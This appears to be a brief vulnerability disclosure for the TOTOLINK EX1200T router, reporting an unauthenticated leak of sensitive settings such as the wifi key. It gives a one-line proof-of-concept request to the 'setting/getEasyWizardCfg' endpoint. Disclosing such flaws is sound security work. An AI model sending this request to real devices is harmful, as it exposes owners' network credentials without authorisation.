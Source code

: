 # TOTOLINK EX1200T LEAK

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can get the sensitive information (wifikey, etc.) without authorization.

## PoC

![image-20211021182420100](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021182420100.png)

```
{"topicurl":"setting/getEasyWizardCfg"}
```

